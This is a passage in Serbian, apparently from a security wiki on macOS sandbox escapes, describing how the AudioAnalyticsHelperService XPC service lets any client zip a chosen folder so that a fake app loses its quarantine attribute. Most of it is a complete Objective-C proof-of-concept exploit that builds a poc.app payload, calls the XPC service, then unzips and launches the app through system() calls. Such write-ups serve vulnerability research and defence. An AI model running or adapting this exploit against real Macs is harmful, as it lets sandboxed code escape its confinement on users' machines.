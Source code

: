 Ova XPC usluga je omogućila svakom klijentu da uvek vrati YES, a metoda `createZipAtPath:hourThreshold:withReply:` je u suštini omogućila da se naznači putanja do fascikle koja treba da se kompresuje i ona će je kompresovati u ZIP datoteku.

Stoga, moguće je generisati lažnu strukturu fascikle aplikacije, kompresovati je, a zatim dekompresovati i izvršiti je kako bi se pobeglo iz sandboxes-a, jer nove datoteke neće imati atribut karantina.

Eksploit je bio:
```objectivec
@protocol AudioAnalyticsHelperServiceProtocol
-(void)pruneZips:(NSString *)path hourThreshold:(int)threshold withReply:(void (^)(id *))reply;
-(void)createZipAtPath:(NSString *)path hourThreshold:(int)threshold withReply:(void (^)(id *))reply;
@end
void exploit_AudioAnalyticsHelperService(void) {
NSString *currentPath = NSTemporaryDirectory();
chdir([currentPath UTF8String]);
NSLog(@"======== preparing payload at the current path:%@", currentPath);
system("mkdir -p compressed/poc.app/Contents/MacOS; touch 1.json");
[@"#!/bin/bash\ntouch /tmp/sbx\n" writeToFile:@"compressed/poc.app/Contents/MacOS/poc" atomically:YES encoding:NSUTF8StringEncoding error:0];
system("chmod +x compressed/poc.app/Contents/MacOS/poc");

[[NSBundle bundleWithPath:@"/System/Library/PrivateFrameworks/AudioAnalyticsInternal.framework"] load];
NSXPCConnection * conn = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.internal.audioanalytics.helper"];
conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(AudioAnalyticsHelperServiceProtocol)];
[conn resume];

[[conn remoteObjectProxy] createZipAtPath:currentPath hourThreshold:0 withReply:^(id *error){
NSDirectoryEnumerator *dirEnum = [[[NSFileManager alloc] init] enumeratorAtPath:currentPath];
NSString *file;
while ((file = [dirEnum nextObject])) {
if ([[file pathExtension] isEqualToString: @"zip"]) {
// open the zip
NSString *cmd = [@"open " stringByAppendingString:file];
system([cmd UTF8String]);

sleep(3); // wait for decompression and then open the payload (poc.app)
NSString *cmd2 = [NSString stringWithFormat:@"open /Users/%@/Downloads/%@/poc.app", NSUserName(), [file stringByDeletingPathExtension]];
system([cmd2 UTF8String]);
break;
}
}
}];
}
```
#### /System/Library/PrivateFrameworks/WorkflowKit.framework/XPCServices/ShortcutsFileAccessHelper.xpc
